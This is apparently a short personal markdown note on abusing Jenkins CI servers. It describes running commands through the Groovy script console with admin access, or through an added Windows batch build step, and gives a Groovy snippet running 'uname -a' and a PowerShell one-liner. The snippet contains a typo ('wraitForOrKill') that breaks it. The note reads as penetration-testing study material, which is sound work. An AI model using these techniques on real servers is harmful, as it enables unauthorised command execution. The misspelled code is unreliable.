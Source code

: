 ```yaml
---
category: Uncategorized
tags: []
---
```

- In-house developed tools that are running in enterprise network can be abused as they are not made with security in mind.
- Eg: CI tools such as jenkins
# Jenkins
- Tools used for continuous integration (CI).
- If we have administrative access in Jenkins we can use the script console to run commands on the server.
- The script is written in Groovy script.
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'uname -a'.execute()
proc.consumeProcessOutput(sout,serr)
proc.wraitForOrKill(1000)
println "out > $sout err> $serr"
```
- If we don't have administrative access but have access to a user that can add or edit build steps in the build configuration, we can add a build step to run windows command.
- Configure -> Add build steps -> add "Execute Windows Batch Command" -> powershell -c "Get-ChildItem"